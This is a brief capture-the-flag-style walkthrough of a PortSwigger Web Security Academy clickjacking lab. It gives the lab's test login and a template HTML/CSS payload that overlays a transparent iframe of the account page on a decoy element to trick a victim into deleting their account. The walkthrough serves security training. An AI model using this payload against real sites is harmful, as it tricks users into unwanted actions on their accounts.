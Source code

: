 ## Clickjacking with CSRF token Protection

![Masked inline frame illustration](images/click12.png)\

### So lets start With Click on the Access labs
To solve the lab, craft some HTML that frames the account page and fools the user into deleting their account. The lab is solved when the account is deleted.



### Firstly Click on My account Section

In my account section You can log in to your own account using the following credentials: wiener:peter


### IN Lab Click on Go to Exploit the server
We assume that you a basic knowledge of HTML head and CSS...


```markup
<style>
    iframe {
        position:relative;
        width:$width_value;
        height: $height_value;
        opacity: $opacity;
        z-index: 2;
    }
    div {
        position:absolute;
        top:$top_value;
        left:$side_value;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="YOUR-LAB-ID.web-security-academy.net/my-account"></iframe>
```

Soo we further procced


**In Css several changes like giving height and width and Change opacity to view the content to fool our victim**




 **fill the value of fields of a form using GET parameters when loading a page**. An attacker may abuse this behaviour to fill a form with arbitrary data and send the clickjacking payload so the user press the button Submit.

